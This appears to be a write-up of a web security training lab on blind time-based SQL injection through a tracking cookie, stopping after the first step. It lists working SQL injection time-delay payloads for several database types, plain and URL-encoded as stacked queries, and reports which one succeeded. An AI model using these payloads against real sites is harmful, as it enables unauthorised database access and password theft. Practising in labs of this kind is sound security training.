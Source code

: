 # Lab: Blind SQL injection with time delays and information retrieval

## Description

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Hint

Check out the SQLi cheat sheet

![image](https://user-images.githubusercontent.com/83407557/172084631-72e84084-1d39-4af7-84fa-b1479377b76b.png)


## Step 1 Finding injection point

Since I am not sure what the database type is, I can check for a timing delay using the conditional time delay payloads from portswigger

```sql
'SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual--

'IF (1=1) WAITFOR DELAY '0:0:10'--

'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

'SELECT IF(1=1,sleep(10),'a')--
```

None of these were working for me until I decided to reread the cheat sheet, per the hint. On a whim I decided to try running these commands as stacked queries (so they will be prefaced with a semicolon.) They will also have to have certain characters url encoded.

```sql
'%3BSELECT+CASE+WHEN+(1%3d1)+THEN+'a'||dbms_pipe.receive_message(('a'),10)+ELSE+NULL+END+FROM+dual--

'%3BIF+(1%3d1)+WAITFOR+DELAY+'0:0:10'--

'%3BSELECT+CASE+WHEN+(1%3d1)+THEN pg_sleep(10)+ELSE+pg_sleep(0)+END--

'%3BSELECT+IF(1%3d1,sleep(10),'a')--
```

I send each of these as an intruder payload:


![image](https://user-images.githubusercontent.com/83407557/172088987-064fe8f2-8957-42f4-84e5-d67cbe1efae5.png)

This response takes much longer than the others, telling me there is a blind conditional time-based vulnerability and that it is a PostgreSQL database

# Step 2 Verify there is an "Administrator" user in a "users" table

